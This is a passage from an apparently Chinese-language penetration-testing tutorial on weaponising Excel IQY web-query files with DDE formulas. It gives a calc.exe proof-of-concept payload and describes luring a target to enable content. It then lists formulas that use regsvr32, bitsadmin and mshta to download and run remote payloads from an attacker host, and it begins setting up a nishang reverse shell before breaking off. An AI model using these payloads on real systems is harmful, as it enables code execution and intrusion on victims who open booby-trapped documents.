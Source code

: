 ![image-20210320095447284](https://gitee.com/luo_fan_1/yanmie-art/raw/master/img/20210402173808.png)

接下来利用IYQ打开计算机来看看效果



 在我们自己的服务器的网站目录下放一个payload.html文件，内容是IYQ代码

```html
=cmd|'/c calc.exe '!A0
```

接下来就是按照之前的方法，来拉取我们自己服务器上的payload文件

![image-20210320101555566](https://gitee.com/luo_fan_1/yanmie-art/raw/master/img/20210402173809.png)

导入

![image-20210320100212731](https://gitee.com/luo_fan_1/yanmie-art/raw/master/img/20210402173810.png)

![image-20210320101627913](https://gitee.com/luo_fan_1/yanmie-art/raw/master/img/20210402173811.png)

点击是，即可弹出计算器

![image-20210320101645783](https://gitee.com/luo_fan_1/yanmie-art/raw/master/img/20210402173812.png)

将文件保存，放在靶机打开

![image-20210320101751297](https://gitee.com/luo_fan_1/yanmie-art/raw/master/img/20210402173813.png)

点击启用内容，继续点击是，即可弹出计算器。

![image-20210320101807738](https://gitee.com/luo_fan_1/yanmie-art/raw/master/img/20210402173814.png)

其他方式

```cmd
regsvr32
=cmd|'/c regsvr32 /s /n /u /i:http://ip/D4zv0M.sct scrobj.dll '!A0
bitsadmin
 =cmd|'/c bitsadmin /transfer e822 http://ip/iqy %APPDATA%\e822.exe&%APPDATA%\e822.exe&del %APPDATA%\e822.exe '!A0
mshta
 =cmd|'/c mshta http://ip/iqy.hta '!A0

```



**接下来进行弹shell操作**

用到的工具：

```txt
nishang：
https://github.com/samratashok/nishang/releases
```

先在kali准备好payload:
